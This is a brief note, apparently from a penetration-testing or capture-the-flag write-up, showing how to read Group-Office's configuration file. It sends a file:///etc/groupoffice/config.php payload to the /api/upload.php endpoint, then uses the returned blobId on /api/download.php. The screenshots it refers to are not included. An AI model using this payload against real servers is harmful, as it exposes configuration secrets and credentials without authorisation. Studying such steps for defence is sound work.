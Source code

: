 ![[Pasted image 20241104174526.png]]

2.
`groupoffice`
![[Pasted image 20241104174758.png]]
using the `/api/upload.php` endpoint search for the endpoint using payload
```bash
file%3a///etc/groupoffice/config.php
```
get the new `BloBID:`
```bash
"blobId":"49b5ad9556a5edf37c19954ea15e4901d17228a5"
```
![[Pasted image 20241104174853.png]]
Plug in the new `blobID` into the `/api/download.php` endpoint and profit
![[Pasted image 20241104175053.png]]